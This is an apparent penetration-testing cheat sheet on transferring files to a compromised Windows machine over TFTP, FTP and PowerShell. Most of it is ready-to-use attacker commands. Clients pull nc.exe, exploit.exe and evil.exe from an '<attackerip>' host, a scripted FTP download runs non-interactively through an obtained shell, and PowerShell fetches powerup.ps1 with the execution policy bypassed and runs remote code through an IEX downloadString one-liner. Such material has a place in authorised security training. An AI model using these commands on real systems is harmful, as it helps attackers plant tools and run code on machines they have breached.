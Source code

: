 # TFTP

- Windows XP and Win 2003 contain tftp client. Windows 7 do not by default 
- tfpt clients are usually non-interactive, so they could work through an obtained shell 

atftpd --daemon --port 69 /tftp
Windows> tftp -i 192.168.30.45 GET nc.exe



# FTP (pyftpdlib client on Kali)

- Ftp is generally installed on Windows machines
- To make it interactive, use -s option

## On Kali install a ftp client and set a username/password

```
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21
```

## on Windows

```
ftp <attackerip>
> binary
> get exploit.exe
```


# FTP (pureftpd client on Kali)

## on Kali

### install ftp client

```
apt-get install pure-ftpd
```

### create a group

```
groupadd ftpgroup
```

### add a user

```
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
```

### Create a directory for your ftp-files (you can also specify a specific user e.g.: /root/ftphome/bob).

```
mkdir /root/ftphome
```

### Create a ftp-user, in our example "bob" (again you can set "-d /root/ftphome/bob/" if you wish).

```
pure-pw useradd bob -u ftpuser -g ftpgroup -d /root/ftphome/
```

### Update the ftp database after adding our new user.

```
pure-pw mkdb
```

### change ownership of the specified ftp directory (and all it's sub-direcotries) 

```
chown -R ftpuser:ftpgroup /root/ftphome
```

### restart Pure-FTPD

```
/etc/init.d/pure-ftpd restart
```

### On Windows

```
echo open <attackerip> 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```


# Powershell

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<attackerip>/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## Powershell download a file

```
powershell "IEX(New Object Net.WebClient).downloadString('http://<targetip>/file.ps1')"
```

